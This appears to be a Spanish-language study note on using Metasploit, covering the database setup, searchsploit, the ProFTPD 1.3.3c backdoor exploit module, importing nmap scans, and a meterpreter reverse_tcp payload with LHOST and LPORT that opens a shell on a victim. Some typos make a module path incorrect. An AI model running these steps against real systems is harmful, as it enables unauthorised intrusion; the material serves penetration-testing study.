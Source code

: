 Metasploit framework es una herramienta desarrollada en Perl y Ruby en su mayor parte, que está **enfocada a auditores de seguridad y equipos Red Team y Blue Team**.

**Es una herramienta muy completa que tiene muchísimos exploits**, que son vulnerabilidades conocidas, en las cuales tienen también unos módulos, llamados [[Payload]], que son los códigos que explotan estas vulnerabilidades.

También **dispone de otros tipo de módulos**, por ejemplo, los encoders, que son una especie de códigos de cifrado para evasión de antivirus o sistemas de seguridad perimetral.

## Uso
	msfdb run
Esto crear la base de datos y el usuario, es decir inicializa la herramiente, *esto solo se ejecuta cuando no hemos hecho uso de esta.*

	msfconsole
Ejecuta el framework de mestasploit

	searchsploit ProFTP 1.3.3.c
Lo que hace es buscar meta sploit que sean vulnerables para la version del servicio.

-ProFTP 1.3.3.c *es la version del servicio donde queremos buscar vulnerabilidades*

	use xploit/unix/ftp/proftpd_133c_backdoor
Usa el metasploit que se esta en la siguiente ruta

	show options
Muetra los datos que debemos de introducir en el sploit que queremos utilizar

	set RHOSTS 192.168.1.68
Esto sirve para setear valores que el splot nos pide

-RHOSTS *Es el nombre del parametro que es requerido por el sploit*
-192.168.1.68 *Es el valor el valor que le damos al parametro RHOSTS*

## nmap
Ahora podemos realizar escaneos dentro de metaploit con la finalidad de facilitar el uso entre metasploit, ya que podemos vizualizar todo la informacion del escaneo.

Tambien podemo tomar una db que contenga todos los datos de un scan e importarlo a metasploit.

	nmap -sP 192.168.1.0/24 -oX scan-result.xml

-oX *Guarda el resultado en un archivo xml*

	db_import scan-result.xml
Este es el formato adecuado para importar la informacion a metasploit.

	hosts
Vizualizar los escaneos 

	services
Visualizar los servicios que corren en un determinado escaneo


## Creacion de listener
Ahora cuando un exploit nos permite la execucion remota de comando, la mayoria de las veces nos enviamos una shell por tcp a nuestra maquina de forma manual con *netcat* pero esto se puede hacer desde metasploit.

Una vez que ya configuramos las opciones del exploit procederemos a cargar un [[Payload]] que defina una ruta en escucha para recibir la shell desde la maquina victima.

	set payload windows/meterpreter/reverse_tcp

Ahora por lo tanto hay que establecer las opciones para el payload, en este caso la ip y puerto que estara en escucha.

	set LHOST 192.168.1.73
	set LPORT 443

En caso de ser exitoso la explotacion podremos vizualizar algo asi como, y ya estariamos dentro de la maquina victima ,para obtener una consola interactiva solo faltaria el comando SHELL.

	[!] Meterpreter session 1 openend
	meterpreter> shell

